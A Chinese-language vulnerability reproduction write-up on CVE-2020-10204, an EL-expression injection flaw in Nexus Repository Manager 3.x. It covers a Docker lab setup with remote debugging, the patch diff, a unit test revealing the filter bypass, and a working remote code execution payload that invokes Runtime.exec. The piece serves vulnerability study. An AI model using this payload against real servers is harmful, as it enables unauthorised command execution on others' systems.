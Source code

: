 （CVE-2020-10204）Nexus Repository Manager 远程执行代码漏洞
===========================================================

一、漏洞简介
------------

二、漏洞影响
------------

所有以前的Nexus Repository Manager 3.x OSS / Pro最高版本包括3.21.1

三、复现过程
------------

### 环境搭建

下载pull下漏洞版本的docker

    https://hub.docker.com/r/sonatype/nexus3/tags
    docker pull sonatype/nexus3:3.21.1

然后切成root用户进入容器修改启动项\*\*/opt/sonatype/nexus/bin/nexus\*\*

    run)

    $INSTALL4J_JAVA_PREFIX exec "$app_java_home/bin/java"  -Xdebug -server -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=8888 -Dinstall4j.jvmDir="$app_java_home" -Dexe4j.moduleName="$prg_dir/$progname" "-XX:+UnlockDiagnosticVMOptions" "-Dinstall4j.launcherId=245" "-Dinstall4j.swt=false" "$vmov_1" "$vmov_2" "$vmov_3" "$vmov_4" "$vmov_5" $INSTALL4J_ADD_VM_PARAMS -classpath "$local_classpath" com.install4j.runtime.launcher.UnixLauncher run 9d17dc87 0 0 org.sonatype.nexus.karaf.NexusMain

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId25.png)

然后在**https://github.com/sonatype/nexus-public**下载源码,导入idea,然后配好远程配置连上去即可调试。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId26.png)

### 漏洞分析

我们先来diff一下3.21.0和3.21.2的区别,找一下官方修复的痕迹

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId28.png)

可以看到有很明显的漏洞修复痕迹,EL表达式注入的限制被绕过了,其实我们看到测试文件

    @Test
      public void testStripJavaEl_bugged_interpolator() {
        String test = "$\\A{badstuffinhere}";
        String result = underTest.stripJavaEl(test);
        assertThat(result, is("{badstuffinhere}"));
      }

也可以直接知道绕过方法,这里我直接给我rce的poc

    $\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/sssss')}
